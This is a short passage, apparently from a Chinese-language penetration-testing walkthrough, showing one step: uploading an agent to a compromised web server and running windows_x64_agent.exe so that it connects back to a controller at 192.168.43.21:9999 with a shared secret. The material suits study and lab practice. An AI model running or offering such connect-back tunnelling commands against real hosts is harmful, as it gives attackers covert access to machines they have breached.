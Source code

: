 ![image-20230323191306222](images/10.png)

将agent端上传到拿下的web主机

```
windows_x64_agent.exe -c 192.168.43.21:9999 -s DawnT0wn
```

![image-20230323192038523](images/11.png)